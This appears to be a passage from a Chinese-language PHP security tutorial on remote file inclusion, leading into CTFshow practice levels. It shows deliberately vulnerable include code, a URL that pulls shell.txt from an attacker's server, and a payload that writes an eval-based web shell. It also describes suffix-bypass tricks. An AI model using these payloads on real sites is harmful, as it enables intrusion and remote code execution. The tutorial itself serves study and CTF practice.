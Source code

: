```php
#是否允许打开远程文件
allow_url_fopen = On
#是否允许include/require远程文件
allow_url_include = On
```

#### 无限制远程文件包含漏洞

通过远程文件包含漏洞，包含shell.txt可以解析

```php
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```

```bash
?a=http://攻击者的VPS/shell.txt
#会在网站目录生成名为 shell.php 的一句话木马
```

**shell.txt内容为：**

```php
<?php
    fputs(fopen('./shell.php','w'),'<?php @eval($_POST[aaa]) ?>');
?>
```

#### 有限制远程文件包含漏洞绕过

例如html

```php
<?php include($_GET['filename'] . ".html"); ?>
```

代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀

可以通过  ？# 空格 绕过，也可以直接burp爆破尝试支持的绕过符号。

## 文件包含伪协议利用

PHP 带有很多内置 URL 风格的封装协议，而这些协议则是我们处理文件包含漏洞经常用到的方法可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统函数。 除了这些封装协议，还能通过 stream_wrapper_register() 来注册自定义的封装协议。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/wjbh-2.png)

各类脚本语言包含伪协议玩法参考

[https://www.cnblogs.com/endust/p/11804767.html](https://www.cnblogs.com/endust/p/11804767.html)

## 实战练习—CTFshow

**CTFSHOW-78关卡到117关卡**
